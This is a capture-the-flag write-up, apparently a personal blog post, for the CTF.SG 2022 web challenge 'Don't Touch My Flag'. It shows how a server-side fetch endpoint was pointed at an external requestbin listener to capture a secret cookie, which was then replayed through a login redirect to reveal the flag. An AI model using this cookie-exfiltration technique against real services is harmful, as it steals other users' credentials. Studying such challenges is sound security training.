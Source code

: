 ```yaml
---
title: "[CTF.SG'22] Don't Touch My Flag"
date: 2022-03-13T00:00:00+08:00
author: "Bowen"
tags:
- Python
- web
ctfs:
- CTF.SG'22
---
```


# Don't Touch my Flag (CTF.SG 2022)

![challenge description](chal_desc.png)

## Understanding how the website works

### Get Function

Firstly, from the index function, we see that it calls `/get`.
Looking at the `get` function, we see that it sends a request to the url, with
the `secret` as a cookie. Keep this in mind as we'll need to make use of the
`secret` to get the flag.
Lastly, it censors the response by converting everything into `*`.

![get](get_src.png)
![censor](censor_src.png)

### Flag Function

We see that the webpage uses the `get` function to get `\flag`, so that's
probably the best function to look into next.

![get flag](get_flag_src.png)

Seems like all it does is it reveals the flag if `secret` is correct.

Based on these information, we could certainly get the value of `secret` and
write a script to send it as a cookie. However, the `\login` function does that
for us :O

### Login Function

![login](login_src.png)

We see that the login function will redirect us to the next webpage with
`secret` as a cookie parameter if `secret` as a argument passed in is correct.

### Steps to Solve

1. Get the value of `secret`.
2. Use the `login` function to send a request to `flag` (`/login?next=/flag&secret=secret`).
3. Done

### Getting Secret

As the `get` function sends a request with `secret` as a cookie, we can set up
a listener on an external website, which is used to see the values of the
request sent.

I went to https://pipedream.com/requestbin to set up a listener, and made a
`GET` request through `/get?uri={requestbin_link_here}`. Viola, we got the `secret`!

![pipedream](pipedream.png)

### Using Login to get Flag

Now, we just need to use `login` to send a request to `flag`, simply by doing `/login?next=/flag&secret=8byEt7F60cCSRpQs1jeAXQqByOsK5P5b`.
Ez claps, we got the flag :D

### Flag

`CTFSG{d0nT_toUcH_mY_c00k13s}`

![flag](flag.png)
